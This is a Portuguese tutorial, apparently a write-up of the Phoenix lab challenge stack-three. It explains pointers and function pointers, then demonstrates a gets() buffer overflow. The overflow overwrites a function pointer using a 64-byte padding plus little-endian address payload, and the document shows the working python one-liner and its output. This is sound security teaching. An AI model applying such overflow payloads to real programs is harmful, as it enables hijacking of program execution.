

🎯 Objetivo
Usar um pointer para retornar para uma função pre existente
💡 Dica
OBS: em Ingles! // Wikipedia Pointer
💫 Explicação
- O que raios são pointers
- Function pointers
- Exploit
↗️↘️ O que raios são pointers
Pointers são uma estrutura que, ao invés de armazenar dados, armazena o endereço de outra estrutura. Lembra do exemplo do poço? Que cada item tinha seu endereço na stack! Então, um pointer armazena esse endereço! :D
O pointer pode ser visto como uma placa na estrada, indicando que X cidade está em Y direção.
Colunas: Nome da Variável | Endereço | conteúdo

A variável "a" é um pointer que armazena a localização da variável "b". Coloquialmente se diz que: "a" está apontando para "b" (seta vermelha).
"a" armazena uma referencia á "b" !
"a" pode ser des-referenciada, isto é: Seguir a direção que "a" aponta, para chegar no valor de "b" ! :D
Normalmente, o caracteres "&" indica uma referência, e o caracteres "*" desreferencia aquele pointer.
Caso você tente desrefenciar um pointer que não aponta pra nada (NULL), o programa vai interromper a execução e soltar uma mensagem de erro! Ou vai ser classificado como "comportamento indefinido"! Por isso, você vai ver "Null Checks" bem frequentemente nesses desafios e em programas em geral!
🦀 Function Pointers
Function pointers, ao invés de armazenar o endereço de uma variável, armazenam o endereço de uma função! :D
Sim! Funções também são armazenadas na Stack, e possuem seu endereço! Esse endereço pode ser encontrado por vários métodos:
objdump -d <programa> | grep <nome_da_função>
gdb <programa>
(gdb)> info functions
Os dois métodos serão demonstrados em breve! :D
🔥 Exploit
Buffer overflow, alterando o valor de um function pointer, redirecionando a execução do programa.
Em lingua não nerd, por favor? :P
O valor que sera corrompido pelo buffer overflow indica aonde a execução do programa esta indo. Se controlamos esse valor, controlamos aonde o programa vai!
🛸 Analisando o programa
função complete_level() { // a função que a gente quer chamar
.......
}
função main() {
criar buffer[64];
criar fp; // um function pointer
fp = NULL; // vai ser usado para checar se ele foi alterado,
// se continuar sendo NULL, quer dizer que esta intacto.
gets(buffer) // função INSEGURA para abrir um input
if (fp) { // se fp foi alterado
fp() // chama o endereço salvo em fp como se fosse uma função
} else {
print(valor nao alterado, tente novamente)
}
exit
}
Nós queremos chamar complete_level(), para isso, faremos fp salvar o seu endereço.
E nós já sabemos como exploitar um gets() para alterar os valores depois do buffer! Então tá na hora do trabalho!
🏠 Encontrando o endereço da função
objdump -d // Resumindo, printa pro terminal os objetos armazenados na Stack e seus endereços
( O -d é pra ativar a disassembly: Converter de machine code para algo legível )!
gdb
objdump
$ objdump -d /opt/phoenix/amd64/stack-three | grep complete_level
000000000040069d <complete_level>:
gdb
$ gdb /opt/phoenix/amd64/stack-three
---- Mensagens padrão foram removidas ----
(gdb) info functions
All defined functions:
Non-debugging symbols:
0x00000000004004b0 _init
0x00000000004004d0 printf@plt
0x00000000004004e0 gets@plt
0x00000000004004f0 puts@plt
0x0000000000400500 fflush@plt
0x0000000000400510 exit@plt
0x0000000000400520 __libc_start_main@plt
0x0000000000400530 _start
0x0000000000400546 _start_c
0x0000000000400570 deregister_tm_clones
0x00000000004005a0 register_tm_clones
0x00000000004005e0 __do_global_dtors_aux
0x0000000000400670 frame_dummy
0x000000000040069d complete_level // Mesmo endereço
0x00000000004006b5 main
0x0000000000400740 __do_global_ctors_aux
0x0000000000400782 _fini
O endereço da função é 0x000000000040069d ! :D
Presta atenção na quantidade de null bytes que precedem o endereço. Todo pointer começa com pelo menos dois null bytes, e strings terminam com 1 null byte!
Assim, impedindo atacantes (nós), de definir um pointer novo, pois quebraria a string do nosso input. Nós precisamos usar um que já esta na memoria! ( Spoiler hehehehe :D )
Como nesse desafio o pointer ja existe (fp) e nós só vamos mudar os bytes finais dele
(Inteiro escreve na direção LE, lembra? Então não vai interferir com os NULLs que vem antes)
Portanto não precisamos nos preocupar com isso nesse desafio!
😐 Cansei de teoria eu quero exploit
Se você quer tentar por conta própria, agora é sua hora de brilhar!
Lembretes:
Little Endian, o buffer tem 64 bytes,
b"\x", e o input vem pelo gets()
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
eai, brilhou? ;)
O input que vamos passar fica:
b"A"*64 # encher o buffer (padding)
+
b"\x9d\x06\x40" # 0x40069d vira "9d 06 40" em LE
Então...
$ python -c "print(b'A'*64 + b'\x9d\x06\x40')"
calling function pointer @ 0x40069d <-- chamando complete_level()
Congratulations, you've finished phoenix/stack-three :-) Well done!
Espero que você tenha gostado! :D
🔥 Solução
$ python -c "print(b'A'*64 + b'\x9d\x06\x40')" | /opt/phoenix/amd64/stack-three
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!